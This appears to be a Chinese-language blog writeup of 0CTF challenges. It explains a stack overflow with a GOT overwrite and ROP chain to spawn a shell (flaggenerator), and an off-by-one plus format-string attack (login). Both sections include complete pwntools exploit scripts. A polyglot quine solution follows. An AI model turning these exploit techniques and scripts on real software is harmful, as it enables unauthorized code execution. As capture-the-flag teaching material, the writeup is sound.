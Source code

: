 ```yaml
---
title: 0CTF writeup
author: rk700
layout: post
tags:
  - exploit
  - misc
---
```


周末参加了今年的第二次CTF，0CTF。与BCTF类似，这次的溢出、逆向题目也是非常有水平的，令人大开眼界。下面是我的部分的writeup。

## flaggenerator

这道题的溢出还是比较明显的。在leetify时，一个`h`字符会被变成`1-1`三个字符，从而长度变长，造成栈溢出。但这道题有stack canary保护，如果我们栈溢出修改了返回地址，就会触发`__stack_chk_fail`。而读了一遍伪代码之后并没有发现可以泄露canary的地方，于是肯定会触发调用`__stack_chk_fail`了。

但是，在leetify的最后一步是`strcpy`，而目标`dest`是从栈上取的，源`src`是我们提供的flag（虽然有些字符被leetify了）。`dest`是我们可以覆盖到的，于是，如果我们把`strcpy`的目标地址改为GOT，造成修改`__stack_chk_fail@got`，那么就可以调用我们提供的函数了。

在调用`__stack_chk_fail@got`时，栈顶还是之前`strcpy`的参数。我用的是`leave; ret`，这样把`ebp`设为我们覆盖的一个地址，再跳回leetify的返回地址，那里也是被我们所覆盖的，进而ROP下去。pwntools里好像有写ROP的功能，我不太熟，还是手工构造的。具体地，先`put`打印GOT，获得库函数地址；然后调用程序里一个类似`readline`的函数，将`system`和字符串`/bin/sh`读到固定位置；最后`leave; ret`，执行`system("bin/sh")`。下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    elf = ELF('flagen')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 5149)

    #len=9
    newGOT = [0x080484e6, 0x080484f6, 0x08048506, 0x08048516, 0x08048526, 0xf7e24570, 0x08048546, 0x08048556, 0x08048566]
    leave = 0x080485d8 
    newGOT[0] = leave #leave; ret
    newEbp = 0x0804b610
    newDest = 0x0804b01c #__stack_chk_fail@got
    popRet = 0x08048481 #pop ebx; ret
    newRet = popRet
    puts = 0x08048510 #puts@plt
    read = 0x0804b00c #read@got
    readLine = 0x080486cb
    count = 0x01010101
    sh = newEbp + 4*4 
    bsh = 0xf7f6a3a8

    #0x10c=4*9+77*3+1
    payload1 = "1\n" + "".join([p32(x) for x in newGOT]) + "h"*77 + "a" + p32(newEbp) + p32(popRet) + p32(newDest) + p32(puts) + p32(popRet) + p32(read) + p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
    #total: 4*9+77+1+4*10=154

    conn.recvuntil("Your choice: ")
    conn.send(payload1)

    conn.recvuntil("Your choice: ")
    a1 = conn.recvn(4) 
    readAddr = unpack(a1)
    print(hex(readAddr))

    #system = 0xf7e46d70
    system = readAddr - 0x9aa40
    payload2 = p32(newEbp) + p32(system) + p32(popRet) + p32(sh) + "/bin//sh\n"
    conn.send(payload2)

    conn.interactive()
{% endhighlight %}

## login

这道题是PIE的，所以我调试下断点遇到了一点麻烦。最后我的方法是：在库函数`MD5`下断点，运行到那里后，`finish`回到原程序里，然后一步步走下去。

很明显，我们需要调用读flag文件的那个函数，为此我们需要成为normal user。再新login用户时的`scanf`有问题，这里它用的是`%256s`，这样如果输入256个字符，就会读256个，并添加一个`\x00`在最后。这样，就可以修改那里，成为normal user了。

然后，在隐藏的选项4里，存在format string attack，而且一共有两次。于是我们可以在第一次得到内存地址，然后第二次修改来跳到读flag的函数那里。具体地，通过大量打印内存，我们发现`printf`的第3个参数是栈上的某处，由此可以得到返回地址在栈上的地址；第75个参数是返回地址，由此我们可以得到`.text`的基地址，进而得到读flag的函数的地址。然后，在第二次`printf`时，我们修改返回地址为读flag，就可以在`printf`结束后获得flag了。

下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 10910)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%3$p,%75$p\n1234\n"

    conn.send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')
    print addrs

    stack = int(addrs[0], 16) 
    base = int(addrs[1], 16)-0x12d3
    retAddr1 = stack - 0x8 
    retAddr2 = retAddr1+1
    print hex(retAddr1)
    print hex(base)

    high = (base & 0xff00) >> 8
    print hex(high)

    newHigh = high + 0x11
    part1 = "%8x%11$hhn"
    count = newHigh -8
    print "count 2 is %d" % count

    if count > 13 and count < 100:
        part2 = "aaa%%%dx%%12$hhn" % (count-3)
    elif count > 102:
        part2 = "aa%%%dx%%12$hhn" % (count-2)

    print len(part1)+len(part2)
    print part1+part2

    payload = part1+part2+p64(retAddr1)+p64(retAddr2) + "\n1234\n"

    conn.send(payload)
    conn.interactive()
{% endhighlight %}

## polyglot quine
其实两道题都是考察的它，只不过第一题只要求5种语言里的3种通过即可，第二题则要求5种语言全部通过。第一题我是直接搜索在[http://shinh.skr.jp/obf/](http://shinh.skr.jp/obf/)得到的，它已经满足c, python2, ruby和perl了。但python3还不满足，为此我研究了一下这段代码。

实验发现，python3之所以不满足，是因为python里的`print`会附加一个换行符在最后。为了解决这个问题，代码里用的是`print a%b,`，即在`print`之后添加一个逗号使得不打印换行符。但这只对python2有效，python3就不行了。

经过一番思考，我发现可以通过`rstrip()`去掉结尾的换行符，然后再`print`添加一个换行符，这样就做到了只有一个换行符了，而且这样对python2和python3都可以。下面就是我修改后可以通过5种语言的代码:

{% raw %}
<pre>
 #include/*
s='''*/<stdio.h>
main(){char*_;/*==;sub _:lvalue{$_}<<s;#';<<s#'''
def printf(a,*b):print((a%b).rstrip())
s
#*/
_=" #include/*%cs='''*/<stdio.h>%cmain(){char*_;/*==;sub _:lvalue{%c_}<<s;#';<<s#'''%cdef printf(a,*b):print((a%%b).rstrip())%cs%c#*/%c_=%c%s%c;printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);%c#/*%cs='''*/%c}//'''#==%c";printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);
#/*
s='''*/
}//'''#==
</pre>
{% endraw %}
